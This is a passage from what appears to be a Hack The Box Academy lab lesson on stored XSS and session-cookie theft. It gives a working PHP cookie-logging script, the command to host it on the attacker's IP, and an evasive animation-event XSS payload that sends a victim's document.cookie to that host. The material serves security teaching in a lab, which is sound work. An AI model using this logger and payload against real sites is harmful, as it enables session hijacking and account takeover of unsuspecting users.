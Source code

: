 The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

That is indeed the case! The payload specified in the `Country` field fired!
![22](https://academy.hackthebox.com/storage/modules/153/22.png)

Let us now check if HTTPOnly is "off" using Web Developer Tools:
![23](https://academy.hackthebox.com/storage/modules/153/23.png)

HTTPOnly is off!

### Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.
```
user@htb[/htb]$ php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started
```
Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the `Country` field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:
```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```
Note: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com/), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com/). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
